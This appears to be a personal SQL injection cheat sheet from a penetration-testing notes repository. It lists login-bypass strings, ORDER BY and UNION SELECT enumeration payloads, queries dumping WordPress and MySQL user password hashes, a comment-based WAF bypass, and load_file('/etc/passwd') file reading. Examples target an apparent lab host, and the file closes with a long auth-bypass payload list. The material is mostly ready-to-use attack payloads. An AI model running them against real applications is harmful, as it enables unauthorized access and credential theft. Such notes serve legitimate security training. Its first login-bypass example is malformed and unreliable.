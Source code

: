 # SQL Injection
 **Resources:**
- https://charcharbinks.com/post/introductiontodatabasesforhackers-zerotosqli/
- https://github.com/rewardone/OSCPRepo/blob/master/CheetSheets/Database/SQLiWithWFUZZ.txt
## Basic Login Bypass
```sql
Example -> SELECT * FROM users WHERE user='admin' AND password='password123!'
```
Attack -> SELECT * FROM users WHERE user='1=1 -- -' ~~AND password='password123!'~~

---

## Dump querys
```sql
SELECT title, review FROM games WHERE title LIKE = '%'
```
- Attack ORDER BY:
 ' ORDER BY 1-- -
 ' ORDER BY 2-- -
 ...
 ' ORDER BY 100-- - (try querys until have error to enumerate cols)

When we have enumerated all cols we can try to inject malicious querys

- Attack UNION SELECT:
 ' UNION SELECT null,'test',null-- - (try to inject strings in the cols)
 ' UNION SELECT 1,2,3-- -
 ' UNION SELECT 1,user(),@@version-- -
 ' UNION SELECT null,null,schema_name FROM information_schema.SCHEMATA-- -
 ' UNION SELECT null,null,table_name FROM information_schema.TABLES WHERE table_schema='db'-- -
 ' UNION SELECT null,TABLE_NAME,column_name FROM information_schema.COLUMNS WHERE table_schema='db'-- -
 ' UNION SELECT 1, username, pwd FROM users-- -
				
| Query | Result|
|---|---|
| @@hostname| enumerate the hostname |
| @@version | enumerate version of the DBs |
| user() | enumerate user |
| database() | enumerate db |
| schema_name FROM information_schema.SCHEMATA | enumerate all dbs |
|table_name FROM information_schema.TABLES WHERE table_schema='db' | enumerate tables from a db|
| 'UNION SELECT null,TABLE_NAME,column_name FROM information_schema.COLUMNS WHERE table_schema='db'-- - | enumerate cols in the tables of the db | 
 | ' UNION SELECT 1, username, pwd FROM users-- - | dump password from users | 

---

## Misc SQL
**Try querys like**
```sql
1 = 1
or 1 = 1
1' or '1' = '1'; /# /-- -
```
##### End querys with comments like: 	**';'**   ,   **'#'**   ,   **'-- -'**   ,   **'--'**		,   etc.

| DBs | Command | Description |
| -- | -- | -- |
| MySQL | mysql -u user -p localhost **-e** 'select * from users;' | execute command |

| Type | Query |
| --- | --- |
| Fields | Select * |
| Rows | Where * = \*; |

```sql
select * from users;								# Select ALL.
select password from users where name = admin;		# Select password from users admin.
select * from orders where item_price = 924;		#Show all where the item price is 924$
```

#### Login page?
* Try sqlinjection

| Username: | admin' or 1=1-- - | admin |
|--|--|-- |
| Password: | test | ' or 1=1-- - | 


### Examples SQLi
#### Example1
```sql
' UNION SELECT null,null,schema_name FROM information_schema.SCHEMATA-- -


' UNION SELECT null,null,table_name FROM information_schema.TABLES WHERE table_schema='wordpress'-- -


' UNION SELECT null,TABLE_NAME,column_name FROM information_schema.COLUMNS WHERE table_schema='wordpress'-- -

wp_users
	-> user_pass
	-> user_login
	-> display_name

'UNION SELECT user_pass,user_login,display_name FROM wordpress.wp_users-- -
```
#### Example2
```sql
FIRST TRY WITH ORDER BY...
-> http://supersecurehotel.htb/room.php?cod=1337 UNION SELECT 1,2,3,4,5,6,7;-- -
-> http://supersecurehotel.htb/room.php?cod=1337 UNION SELECT 1,@@version,@@datadir,user(),database(),6,7;-- -
-> http://supersecurehotel.htb/room.php?cod=1337 UNION SELECT null,group_concat(schema_name),null,null,null,null,null from information_schema.schemata;-- -
-> http://supersecurehotel.htb/room.php?cod=1337 UNION SELECT null,group_concat(table_name),null,null,null,null,null from information_schema.tables WHERE table\_schema='hotel';-- -
-> http://supersecurehotel.htb/room.php?cod=1337 UNION SELECT null,group_concat(column_name),null,null,null,null,null from information_schema.columns WHERE table_schema='hotel' and table_name='room';-- -
-> http://supersecurehotel.htb/room.php?cod=1337 UNION SELECT null,group_concat(table_name),null,null,null,null,null from information_schema.tables WHERE table\_schema='mysql';-- -
-> http://supersecurehotel.htb/room.php?cod=1337 UNION SELECT null,group_concat(column_name),null,null,null,null,null from information_schema.columns WHERE table_schema='mysql' and table_name='user';-- -
-> http://supersecurehotel.htb/room.php?cod=1337 UNION SELECT null,group_concat(User,"->",Password),null,null,null,null,null from mysql.user;-- -
```


### Bypass WAF
Bypassing WAF example:
* `http://supersecurehotel.htb/room.php?cod=1/**/union/**/select/**/1,2,3,4,5,6,7--%20-`
* `http://supersecurehotel.htb/room.php?cod=12 UNION SELECT null,user(),null,null,null,null,null`

### SQLI to LFI
load_file() parameter i.e: `http://supersecurehotel.htb/room.php?cod=12 UNION SELECT null,null,load_file('/etc/passwd'),null,null,null,null`

### SQLI to RCE (ToDo) #todo



## Sqli Classic Auth Bypass 
```
'-'
' '
'&'
'^'
'*'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
"-"
" "
"&"
"^"
"*"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--
" or true--
' or true--
") or true--
') or true--
' or 'x'='x
') or ('x')=('x
')) or (('x'))=(('x
" or "x"="x
") or ("x")=("x
")) or (("x"))=(("x
'-- -
'-- -#
admin' --
admin' #
admin'/*
admin' or '1'='1
admin' or '1'='1'--
admin' or '1'='1'#
admin' or '1'='1'/*
admin'or 1=1 or ''='
admin' or 1=1
admin' or 1=1--
admin' or 1=1#
admin' or 1=1/*
admin') or ('1'='1
admin') or ('1'='1'--
admin') or ('1'='1'#
admin') or ('1'='1'/*
admin') or '1'='1
admin') or '1'='1'--
admin') or '1'='1'#
admin') or '1'='1'/*
1234 ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055
admin" --
admin" #
admin"/*
admin" or "1"="1
admin" or "1"="1"--
admin" or "1"="1"#
admin" or "1"="1"/*
admin"or 1=1 or ""="
admin" or 1=1
admin" or 1=1--
admin" or 1=1#
admin" or 1=1/*
admin") or ("1"="1
admin") or ("1"="1"--
admin") or ("1"="1"#
admin") or ("1"="1"/*
admin") or "1"="1
admin") or "1"="1"--
admin") or "1"="1"#
admin") or "1"="1"/*
1234 " AND 1=0 UNION ALL SELECT "admin", "81dc9bdb52d04dc20036dbd8313ed055
```